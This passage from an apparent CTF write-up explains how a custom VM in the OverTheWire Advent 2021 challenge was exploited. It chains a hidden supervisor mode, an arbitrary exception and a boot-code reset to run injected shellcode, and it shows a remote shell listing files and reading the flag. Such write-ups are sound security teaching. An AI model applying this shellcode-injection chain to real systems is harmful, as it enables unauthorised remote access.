   - If applicable, surfaces an exception (e.g. invalid register) in `expt`
   - Continues execution to next instruction
3. Jumps into the boot code (what we looked into above)

From reversing, we've found a few interesting things:
- Instructions we didn't find:
  - 0x00: Supervisor mode triggers
  - 0xff: trigger an arbitrary exception
- A syscall we didn't find:
  - 0x00: sleep

Supervisor mode sounds interesting and has a few options:
- 0x00: exit the program
- 0x01: reset the program (via `vis_reset` -- same as above)
- 0x02: read from a file descriptor and put it into the boot code section of memory

Exception triggering (via `expt`) is also interesting and is something that happens for a lot of circumstances already (e.g. invalid register).
In particular, we can trigger an _arbitrary_ exception number.

Looking deeper into exception code handling, we find a branch that does _not_ exit the program.
The exception codes in this case can be thought of as unhandled.
One side effect of entering `expt` is that supervisor mode is enabled.
With an unhandled exception, we now have the ability to toggle supervisor mode.
This will be useful for later.

## Getting a shell

Given all the above, here's the plan:
1. Craft some shellcode to spawn a shell and run stdin and stdout through the socket
2. Write this shellcode to the boot section
3. Trigger an unhandled exception to enter supervisor mode
4. Reset the program so that the boot code is re-run via `vis_reset`
5. Use our new shell to find the flag

For 1., we're pretty lazy and lean on [the internet](https://0x00sec.org/t/remote-exploit-shellcode-without-sockets/1440) to help us out.
For 2-4, we can easily write a handful of commands to spawn our shell

Lastly, once we have access, we can poke around.
It doesn't take long for us to find what we're looking for.

From our side, the exploit looks like the following:

```console
$ ./exploit.py shell
Request length: 9
 OverTheWire Advent CTF 2021 The Grinch presents:
 (output truncated)

code:
Injecting shellcode
command to run ("exit" to exit): ls
bet_you_didnt_guess_this_flag_name
boot.bin
merryvmas
redir.sh

command to run ("exit" to exit): cat bet_you_didnt_guess_this_flag_name
AOTW{bl4ckb0x3s_4r3_jus7_uN0p3neD_pr3ss13s}
```

And there we have it -- we've opened our present!

Our flag is: `AOTW{bl4ckb0x3s_4r3_jus7_uN0p3neD_pr3ss13s}`
